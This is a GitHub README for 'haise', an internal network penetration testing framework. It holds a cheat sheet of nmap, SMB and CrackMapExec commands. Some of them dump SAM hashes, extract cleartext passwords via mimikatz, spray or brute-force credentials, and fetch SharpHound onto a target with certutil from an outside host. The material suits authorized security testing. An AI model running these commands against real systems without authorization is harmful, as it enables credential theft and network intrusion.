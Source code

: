 # haise
## Internal Network Pentest Framework
![](https://github.com/syedumerqadri/haise/blob/master/image.jpg)


## Internal Penetration Testing:

An Internal Penetration Test differs from a vulnerability assessment in that it actually exploits the vulnerabilities to determine what information is actually exposed. An Internal Penetration Test mimics the actions of an actual attacker exploiting weaknesses in network security without the usual dangers. This test examines internal IT systems for any weakness that could be used to disrupt the confidentiality, availability or integrity of the network

## Methodology:

        •  Internal Network Scanning
                  traceroute www.google.com
                  nmap 192.168.1.*
                  Reverse IP Lookup (https://mxtoolbox.com/ReverseLookup.aspx)
                  Ip Info: https://ipinfo.io/
        
        •  Port Scanning
                  nmap -p- -T4 -iL sub.txt (Fast Scan)
                  nmap -A 192.168.1.1 (Little Intense and slow)
                  nmap -sV -sC -Pn -p 1-65535 -T5 --min-rate 1000 --max-retries 5 192.168.1.1
                  nmap -sS -sC -sV -v -p 445 -iL subnet-files.txt
                  nmap -sS -sC -sV -v -p 21 -iL subnet-files.txt

                  Web Ports: 80, 8080, 443

                  
        •  Fingerprinting
                  nmap -sV --version-intensity 5 192.168.1.1
                  nc 192.168.1.1 80
                  curl -sI http://192.168.1.1

        •  Vulnerbility Scanning
                  nmap --script vuln 192.168.1.1 -d
                  nikto
                  dirsearch
                  nessus    (https://localhost:8834)
        
        •  IDS Penetration Testing
                  lbd 45.34.23.12
                  wafw00f http://192.168.1.1  
    
        •  SMB Enumeration
                Discover Host:
                cme smb <subnet>    (cme => crackmapexecs)

                Null Session:
                cme smb 192.168.24.0/24 -u '' -p ''
                smbmap –host-file smb-hosts.txt

                SMB Map:
                smbmap -H 192.168.1.1
                smbmap.py –host-file smb-hosts.txt u ‘jsmith’ -p ‘Spring!2020’ -q -R –depth 2 –exclude ADMIN$ IPC$ -A ‘passw’

        •  Exploit Research
                  https://www.exploit-db.com/
                  https://www.rapid7.com/db/
                  https://cxsecurity.com/search/       

        •  Manual Vulnerability Testing and Verification
        •  Password Strength Testing
                  rate limiting
                  sparta(tool)
                  burp (brute force)

        •  Infrastructure Mapping
                  Maltego

                  DNS Server
                  Firewall
                  Cloud
                  Employ Device
                  Logging Server
                  Directory Service
                  Admin Workstation
                                                               
        •  Administrator Privileges Escalation
        •  Database Security Controls Testing    
        •  Third-Party/Vendor Security Configuration Testing

## AD Pentesting:
“Active Directory” Called as “AD” is a directory service that Microsoft developed for the Windows domain network. 
Using it you can to control domain computers and services that are running on every node of your domain.

Active Directory (Pen Test ) is most commonly used in the Enterprise Infrastructure to manage 1000’s of computers in the organization with a single point of control as “Domain Controller”
Performing Penetration Testing of Active Directory is more interesting and are mainly targeted by many APT Groups with a lot of different techniques

    Check SMB Service in use:
    cat hosts.txt | xargs -I{} sh -c 'crackmapexec smb {}'
    
    Enumerate shares:
    crackmapexec 192.168.0.12 -u username -p 'password'  --shares

    Whos logged into the machine:
    crackmapexec 192.168.0.12 -u username -p 'password' --users

    Dump local sam hashes
    python crackmapexec 192.168.0.12 -u username -p 'password' --sam

    Dump clear text password:
    crackmapexec 192.168.0.12 -u username -p 'password' -m modules/credentials/mimikatz.py

    Downloading:
    cme smb 10.128.111.203 -u 'xampp' -p '@sdF1234' -d HQCMSDBQ -x "certutil.exe -urlcache -split -f http://172.17.17.214/SharpHound.exe pentest/zz.exe"

    Check account lockout policy:
    crackmapexec smb 192.168.1.101 -u syedali -p 'test'  --pass-pol

    Password spray:
    python crackmapexec.py 192.168.0.0/24 -u username -p 'password'
                
    Bruteforce:
    crackmapexec smb 192.168.1.102 -u username.txt -p gooo

    Connecting:
    smbclient -L 192.168.1.112 -U "Creative Green"

## Tool for Automation:
Internal network could possibly contain large amount of IPs,For automation first i generate some
of the one liner commands and then automate them with python.

## Usage:
1. git clone https://github.com/syedumerqadri/haise
2. cd haise
3. put all provided IPs on hosts.txt
4. python haise.py

You will got the prompt shell

## Shell:
		[exit]
		[clear]
		[hosts]	list all hosts
		[alive]	check if hosts are alive
		[ports]	port scan of all hosts
		[dir]	Directory Enumuration
	        [headers]  Grab Web Headers
		[scan]	Grab Headers, Port Scan and Directory Enumuration for all hosts 
		[ids] Detect Intrusion Detection System
		[smb] Check for SMB Services







